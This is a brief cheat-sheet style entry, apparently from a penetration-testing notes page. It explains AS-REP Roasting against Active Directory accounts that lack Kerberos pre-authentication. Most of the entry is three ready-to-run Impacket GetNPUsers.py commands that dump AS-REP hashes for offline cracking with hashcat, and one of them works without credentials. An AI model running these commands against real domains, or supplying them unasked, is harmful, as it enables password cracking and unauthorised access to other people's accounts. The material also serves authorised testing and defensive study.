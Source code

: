 **AS-REP Roasting** is an attack method used in Active Directory environments where an attacker targets user accounts that do not require pre-authentication. It involves requesting and then cracking the encrypted ticket-granting service response (AS-REP).

```bash
GetNPUsers.py domain.local/user:password -dc-ip x.x.x.x -outputfile asrep.hashcat
```

With a list of known users:

```bash
GetNPUsers.py -usersfile users.txt -dc-ip x.x.x.x domain.local/ -outputfile asrep.hashcat
```

This might work from with no credentials:

```bash
GetNPUsers.py domain.local/ -dc-ip x.x.x.x
```